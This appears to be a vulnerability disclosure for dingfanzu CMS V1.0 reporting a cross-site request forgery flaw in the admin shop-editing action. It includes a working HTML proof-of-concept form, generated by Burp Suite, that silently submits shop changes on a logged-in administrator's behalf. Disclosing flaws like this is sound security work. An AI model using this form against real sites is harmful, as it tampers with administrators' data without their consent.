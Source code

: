 
target:https://github.com/geeeeeeeek/dingfanzu
version: V1.0

dingfanzu CMS V1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/doAdminAction.php?act=editShop&shopId=1003

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/doAdminAction.php?act=editShop&shopId=1003" method="POST">
      <input type="hidden" name="act" value="editShop" />
<input type="hidden" name="shopId" value="1003" />
<input type="hidden" name="shopName" value="cs1" />
<input type="hidden" name="shopTip" value="1" />
<input type="hidden" name="shopState" value="1" />
<input type="hidden" name="shopBlock" value="1" />
<input type="hidden" name="shopFloor" value="1" />
<input type="hidden" name="filename" value="" />
<input type="hidden" name="myFile" value="" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

